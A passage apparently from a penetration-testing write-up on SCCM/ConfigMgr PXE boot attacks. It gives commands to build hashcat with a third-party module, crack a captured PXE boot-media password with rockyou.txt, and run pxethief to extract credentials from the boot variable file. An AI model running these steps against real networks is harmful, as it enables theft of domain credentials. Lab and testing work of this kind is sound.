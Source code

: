 - and crack it with the hashcat module [https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module)

- on exegol with hashcat 6.2.5

```bash
cd /workspace
git clone https://github.com/hashcat/hashcat.git
git clone https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module
cp configmgr-cryptderivekey-hashcat-module/module_code/module_19850.c hashcat/src/modules/
cp configmgr-cryptderivekey-hashcat-module/opencl_code/m19850* hashcat/OpenCL/
cd hashcat
# change to 6.2.5
git checkout -b v6.2.5 tags/v6.2.5
make
```
- crack the hash

```bash
cd /workspace
hashcat/hashcat -m 19850 --force -a 0 /workspace/pxe_hash /usr/share/wordlists/rockyou.txt
```

![pxe_hash_cracked.png](/assets/img/pxe_hash_cracked.png)

- we successfully retrieved the password: hello

- Now we can use it on pxethief and get the same creds as before

```powershell
py.exe pxethief.py 3 ".\2024.03.28.03.27.34.0001.{BC3AEB9D-2A6C-46FB-A13E-A5EEF11ABACD}.boot.var" hello
```

